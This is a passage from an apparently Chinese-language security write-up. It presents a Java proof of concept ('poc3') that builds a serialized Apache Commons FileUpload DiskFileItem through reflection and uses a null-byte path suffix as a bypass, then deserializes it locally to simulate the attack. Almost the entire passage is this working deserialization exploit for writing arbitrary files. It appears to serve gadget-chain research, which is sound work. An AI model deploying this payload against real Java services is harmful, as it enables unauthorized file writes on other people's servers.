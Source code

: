 poc3只是在poc2的基础上加了一个`\u0000`不可显字符绕过而已，注意，`\0和\u0000 是一个东西`。

```java
package fileupload1;

import org.apache.commons.fileupload.disk.DiskFileItem;
import org.apache.commons.io.output.DeferredFileOutputStream;
import org.apache.commons.io.output.ThresholdingOutputStream;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Paths;

public class FileUpload3 {
    private static final String serialFileName = "fileupload3.ser";
    public static void main(String[] args) throws Exception {
        byte[] data = "Which out!!!".getBytes("US-ASCII");
        int thresh = data.length + 1;
        String repoPath = Paths.get("C:\\Users", "15137", "Desktop", "hello3").toUri().getPath();
        String filePath = Paths.get("C:\\Users", "15137", "Desktop", "hello1", "123.txt").toUri().getPath();
        // 和poc2的差别只有这个
        repoPath += "\0";
        File repository = new File(repoPath);
        DiskFileItem diskFileItem = new DiskFileItem("test", "application/octet-stream", false, "test", 100000, repository);
        File outputFile = new File(filePath);
        DeferredFileOutputStream dfos = new DeferredFileOutputStream(thresh, outputFile);
        Field mos = dfos.getClass().getDeclaredField("memoryOutputStream");
        mos.setAccessible(true);
        OutputStream os = (OutputStream)mos.get(dfos);
        os.write(data);

        Field writtenField = ThresholdingOutputStream.class.getDeclaredField("written");
        writtenField.setAccessible(true);
        writtenField.set(dfos, data.length);

        Field dfosField = diskFileItem.getClass().getDeclaredField("dfos");
        dfosField.setAccessible(true);
        dfosField.set(diskFileItem, dfos);


        Field sizeThresholdField = diskFileItem.getClass().getDeclaredField("sizeThreshold");
        sizeThresholdField.setAccessible(true);
        sizeThresholdField.set(diskFileItem, 0);

        serialize(diskFileItem);
        verify();
    }
    public static void serialize(Object obj)throws Exception {
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        fos.close();
    }
    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
}
```